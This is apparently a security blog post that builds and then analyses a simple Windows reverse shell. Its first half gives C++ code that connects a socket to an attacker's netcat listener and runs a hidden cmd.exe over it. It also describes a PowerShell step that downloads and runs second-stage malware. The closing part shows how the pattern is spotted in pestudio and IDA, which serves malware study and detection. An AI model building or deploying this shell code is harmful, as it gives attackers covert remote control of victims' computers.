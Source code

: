 ```yaml
---
layout: post
title: Malware Functionality Analysis: Simple Reverse Shell
---
```


# Malware Functionality Analysis: Simple Reverse Shell

## Implementing the Reverse Shell

Let's first analyse what we require to develop this functionality.

1. A socket with which commands and communication will be routed to the server,
2. A `cmd.exe` process that acts as the shell,
3. A listening server on the attacking machine (netcat will be sufficient enough for this).

---

### Creating the Connection

I will keep this section brief because creating and connecting a socket is a trivial procedure and there are many tutorials out there explaining how it can be done.

```c++
SOCKET tcpConnect(std::string address, std::string port) {
    getaddrinfo(address.c_str(), port.c_str(), ...);
    
    /*
     * Create a TCP socket connection.
     *
     * It's important that we use WSASocket here instead of the normal socket 
     * function and without the WSA_FLAG_OVERLAPPED flag.
     */
    SOCKET s = WSASocket(..., SOCK_STREAM, IPPROTO_TCP, ...);
    
    connect(s, ...);
    
    return s;
}
```

Note that we require the [`WSASocket`](https://msdn.microsoft.com/en-us/library/windows/desktop/ms742212(v=vs.85).aspx) function because the (non-overlapped) socket will be required to work with I/O redirection with the shell's handles.

---

### Creating the Shell Process

The `cmd.exe` process acts as the shell so the application must create this as a separate process using the [`CreateProcess`](https://msdn.microsoft.com/en-us/library/windows/desktop/ms682425(v=vs.85).aspx) function specifying the executable's path and also setting the stdin/stdout/stderr handles to the socket specified in the [`STARTUPINFO structure`](https://msdn.microsoft.com/en-us/library/windows/desktop/ms686331(v=vs.85).aspx).

```c++
void createShell(void) {
    SOCKET s = tcpConnect(ADDRESS, PORT);
    
    STARTUPINFOA si;
    ZeroMemory(&si, sizeof(si));
    si.cb = sizeof(si);
    
    /*
     * We specify what values we want to use.
     * STARTF_USESTDHANDLES specifies that we want to use stdin/stdout/stderr.
     * STARTF_USESHOWWINDOW specifies that we want to control how the window appears.
     */
    si.dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW;
    
    /*
     * Set stdin/stdout/stderr to be redirected through the socket.
     */
    si.hStdError = si.hStdInput = si.hStdOutput = (HANDLE)s;
    
    /*
     * The process's window will not be shown.
     */
    si.wShowWindow = SW_HIDE;
    
    /*
     * This structure will contain the handle to the shell's 
     * process which will be used to block the application 
     * until the shell exits.
     */
    PROCESS_INFORMATION pi;
    
    /*
     * Retrieve the path of the cmd.exe executable's path.
     * We use this so that it will systemmatically retrieve the 
     * system directory which may not always be "C:\Windows\system32".
     *
     * NOTE: Depending on your application's architecture, this
     * value will change under the hood, i.e. if your application is 
     * a 32-bit process, it will get the SYSWOW64 directory whereas 
     * the 64-bit counterpart will get the system32 directory. Make 
     * sure your target file exists in its corresponding directory 
     * when doing something like this. Alternatively, you can force 
     * to not swap to SYSWOW64 by explicitly calling 
     * Wow64DisableWow64FsRedirection.
     * (https://msdn.microsoft.com/en-us/library/windows/desktop/aa365743(v=vs.85).aspx).
     */
     char szSysDirectory[MAX_PATH + 1];
     ZeroMemory(szSysDirectory, MAX_PATH + 1);
     GetSystemDirectoryA(szSysDirectory, MAX_PATH);
     
     /*
      * Append "\cmd.exe" onto the system directory.
      */
     std::string cmdExe = szSysDirectory;
     cmdExe += "\\cmd.exe";
     
     /*
      * Create the cmd.exe process.
      * Make sure that the process inherits the handles.
      */
     CreateProcessA(cmdExe.c_str(), ..., true, 0, ..., &si, &pi);
     
     /*
      * Block until the cmd.exe process has completed.
      */
     WaitForSingleObject(pi.hProcess, INFINITE);
}
```

Essentially:

```
                                                                      
   +-------------+               +-------------+                                    +-------------+
   |             |    spawns     |             |                                    |             |
   |             | -- cmd.exe -> |             |                                    |             |
   | Application |    process    |    Shell    | -- stdin  --.      redirected      |   Server    |
   |             |               |  (cmd.exe)  | -- stdout -----<--- through --->-- |  (netcat)   |
   |             |    passes     |             | -- stderr --'       socket         |             |
   |             | -- socket --> |             |                                    |             |
   |             |    handle     |             |                                    |             |
   +-------------+               +-------------+                                    +-------------+
```

Once the `cmd.exe` process has been created, we call [`WaitForSingleObject`](https://msdn.microsoft.com/en-us/library/windows/desktop/ms687032(v=vs.85).aspx) to block the application until the shell process has finished execution.

---

### Demonstration

![ShellExample](/images/2018-04-25-Malware-Functionality-Analysis-Simple-Reverse-Shell/shellexample.png)

Note that there is no window for the `cmd.exe` shell process spawned from the application because we used the `SW_HIDE` value for the `STARTUPINFO.wShowWindow` member. It functions nicely using native utilities and can even be used to call PowerShell albiet a little buggy.

![ShellExample](/images/2018-04-25-Malware-Functionality-Analysis-Simple-Reverse-Shell/shellexample1.png)

Using a single PowerShell one-liner, a 2nd-stage malware can be downloaded and invoked on the system like so:

![ShellExample](/images/2018-04-25-Malware-Functionality-Analysis-Simple-Reverse-Shell/shellexample6.png)

The PowerShell script will download a file (specified in `$url`) onto the local system (specified by `$local`), then it invokes the downloaded file using `invoke-item`. The sample 2nd-stage malware is demonstrated with a shortcut file that contains a PowerShell message box script.

```

   +-------------+                 +-------------+                                    +-------------+
   |             |                 |             |                                    |             |
   |             |     calls       |             |   downloads          invokes       |             |
   |    Shell    | - PowerShell -> | PowerShell  | -- remote -- and -- downloaded --> |  2nd-stage  |
   |  (cmd.exe)  |     script      |             |     file              file         |   malware   |
   |             |                 |             |                                    |             |
   |             |                 |             |                                    |             |
   +-------------+                 +-------------+                                    +-------------+
```

---

### Static Analysis

Looking at the strings under pestudio, there exists some suspicious import and miscellaneous strings that relate back to the shell creation.

![ShellExample](/images/2018-04-25-Malware-Functionality-Analysis-Simple-Reverse-Shell/shellexample2.png)

Obviously, the application shows signs of networking activity via the imported Winsock library (ws2_32.dll) and its functions. On top of that, it shows the `\cmd.exe` string that identifies that it may interact with it in some way. To confirm that it is being used as a reverse shell we must dig into the disassembly.

After analysis of the import table and some strings, one method that I find relatively quick and effective is by identifying where these are referenced within the code sections. This can be done with IDA by opening up the respective tab (e.g. Imports or Strings), double clicking an entry and then following any listed references to the code. For this example, following one of the Winsock library functions references the `tcpConnect` disassembly:

![ShellExample](/images/2018-04-25-Malware-Functionality-Analysis-Simple-Reverse-Shell/shellexample3.png)

Tracing backwards from this routine presents the `createShell` routine:

![ShellExample](/images/2018-04-25-Malware-Functionality-Analysis-Simple-Reverse-Shell/shellexample4.png)

(Small note: the `var_34` below the `STARTUPINFO` structure's standard handle assignment is the `STARTUPINFO.wShowWindow` member set to `SW_HIDE` which has the value of `0`.)

![ShellExample](/images/2018-04-25-Malware-Functionality-Analysis-Simple-Reverse-Shell/shellexample5.png)

Obviously, the disassembly nicely follows that of the C++ code implementation listed above. The main focus is that a socket was created in which it was used to set the `STARTUPINFO.hStdInput`, `STARTUPINFO.hStdOuput` and `STARTUPINFO.hStdError` values of a `cmd.exe`'s `CreateProcess`. This pattern of execution flow can identify this type of reverse shell.
